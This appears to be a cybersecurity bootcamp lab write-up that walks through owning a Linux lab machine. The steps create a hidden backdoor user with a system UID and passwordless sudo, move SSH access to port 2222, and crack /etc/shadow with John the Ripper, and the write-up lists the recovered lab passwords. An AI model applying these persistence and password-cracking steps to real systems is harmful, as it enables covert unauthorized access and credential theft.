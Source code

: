 ## Advanced Bash - Owning the System



**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd `

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 28 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 28 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `usermod -aG sudo sysd`

6. Test that `sudo` access works without your password:

    ```
    sudo -l
    sudo -lU sysd
    sudo -v
    sudo adduser frank
    sudo deluser frank
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ![sshd_config](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/06.%20Bash%20Scripting%20and%20Programming/sshd_config.png)
    


**Step 3: Testing The Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    - john /etc/shadow

    • sysadmin:passw0rd:18387:0:99999:7:::
    • student:Goodluck!:18387:0:99999:7:::
    • mitnik:trustno1:18387:0:99999:7:::
    • babbage:freedom:18387:0:99999:7:::
    • lovelace:dragon:18387:0:99999:7:::
    • stallman:computer:18387:0:99999:7:::
    • turing:lakers:18387:0:99999:7:::
    • sysd:password:18841:0:99999:7:::
---
